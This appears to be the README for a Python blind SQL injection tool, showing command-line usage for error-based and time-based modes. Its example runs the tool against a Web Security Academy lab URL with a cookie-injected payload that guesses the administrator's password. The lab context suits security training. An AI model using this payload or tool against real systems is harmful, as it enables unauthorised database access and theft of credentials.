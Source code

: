 Auto BLIND SQL INJECTION TOOL BY Xifeng2009

Specify ^PAYLOAD^ in url/cookie/header , this script will replace it with payload
Require: your own payload, the script will format payload with guessed password where {}{} is found

Blind SQL Injection Based on Error
python3 blindSQLman.py -u [URL] [-c [COOKIE]] -D [DIFF] 
Blind SQL Injection Based on Time
python3 blindSQLman.py -u [URL] [-c [COOKIE]] --tech T -D [DIFF] [--timeout 5]

EXAMPLE:
    python3 blindSQLman.py -u https://ac7d1fba1e422a3ac0ad8e3800f20085.web-security-academy.net/filter?category=Gifts -c "TrackingId=Clv6J8Q4AjAffZhD^PAYLOAD^; session=dGVP3Aje0wspCVHJzYpBV0YluhL4o623" -p "' and (select password from users where username='administrator') like '{}{}%25'---" -D "Welcome back!"